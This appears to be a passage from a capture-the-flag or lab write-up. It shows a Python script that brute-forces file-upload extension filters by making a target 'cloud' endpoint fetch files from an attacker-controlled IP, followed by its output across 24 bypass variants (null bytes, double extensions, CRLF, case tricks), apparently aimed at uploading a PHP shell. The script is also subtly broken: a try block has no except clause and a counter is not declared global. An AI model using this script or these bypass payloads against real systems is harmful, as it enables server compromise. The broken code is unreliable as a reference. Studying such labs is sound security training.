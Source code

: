 ```bash
import requests
import sys
import shutil
import os

url = sys.argv[1]
attacker_ip = 'IP_HERE'
count = 0
total_lines = sum(1 for line in open('ext_bypass.txt'))
headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type':'application/x-www-form-urlencoded'}

def try_extension(extension):
    extension = extension.strip()
    payload = f'url=http%3A%2F%2F{attacker_ip}%2F{extension}'
    try:
        response = requests.post(url, headers=headers, data=payload)
        status_code=response.status_code
        print(f"{count}/{total_lines} - {status_code} - {payload}")

with open("ext_bypass.txt") as file:
    for line in file:
        count +=1
        try_extension(line)
```

Starting the script:

```bash
$ python3 file_check_bypass.py http://10.10.66.215/cloud/
1/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Fcat.jpg
2/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile1.png.php
3/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile2.png.Php5
4/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile3.php%20
5/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile4.php%0a
6/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile5.php%00
7/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile6.php%00.jpg
8/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile7.php#.jpg
9/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile8.php%0d%0a
10/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile9.php/
11/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile10.php.\
12/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile11.
13/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile12.php....
14/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile13.pHp5....
15/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile14.png.php
16/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile15.png.pHp5
17/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile16.php%00.png
18/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile17.php\x00.png
19/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile18.php%0a.png
20/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile19.php%0d%0a.png
21/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile20.phpJunk123png
22/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile21.png.jpg.php
23/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Ffile22.php%00.png%00.jpg
24/24 - 200 - url=http%3A%2F%2F10.18.11.118%2Fex: file23.php.png
```
### Server Output

